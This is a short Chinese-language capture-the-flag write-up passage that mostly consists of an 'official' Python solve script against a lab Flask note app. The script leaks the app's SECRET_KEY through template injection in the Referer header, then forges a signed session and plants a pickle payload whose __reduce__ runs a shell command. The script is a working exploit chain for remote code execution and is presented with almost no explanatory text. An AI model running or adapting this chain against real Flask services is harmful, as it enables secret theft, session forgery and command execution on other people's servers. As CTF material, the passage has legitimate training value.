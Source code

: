 ![Untitled](Python%202c1838eaf9de4ce0a9b5157ca12cec49/Untitled%207.png)

SECRET_KEY中的不可见字符极大的影响了操作这里贴一下官方的脚本，纯python处理

```python
# coding: utf-8
import re
import base64
import hashlib
import pickle
import requests
import os
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

host = os.getenv("HOST", 'fa6bdc63-af9b-497c-9456-dda2e6c9ac2f.node4.buuoj.cn')
port = os.getenv("PORT", '81')
url_new = "http://{}:{}/new".format(host, port)
url_note = "http://{}:{}/note/0".format(host, port)
url_404 = "http://{}:{}/qwerty".format(host, port)
url_referer = "http://{}:{}/{{{{config}}}}".format(host, port)

# leak the secret key
r = requests.get(url_404, headers={'referer': url_referer})
result = re.findall(b"SECRET_KEY&#39;: b&#39;(.+)&#39;, &#39;PERMANENT_SESSION_LIFETIME", r.text.encode("ascii"))
key = eval(b'b"' + result[0] + b'"')

# get a valid session
r = requests.get(url_new, allow_redirects=False)
session = r.cookies.get("session")

# decode
serializer = TaggedJSONSerializer()
signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}
s = URLSafeTimedSerializer(
    key,
    salt='cookie-session',
    serializer=serializer,
    signer_kwargs=signer_kwargs
)
data = s.loads(session)

cmd = ["ls", "-l"]
# inject
class Evil(object):
    def __init__(self, cmd):
        self.cmd = cmd
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (self.cmd, ))
evil = [
    {"date": "", "text": "", "title": Evil(cmd)}
]
data['savedata'] = base64.b64encode(pickle.dumps(evil))
```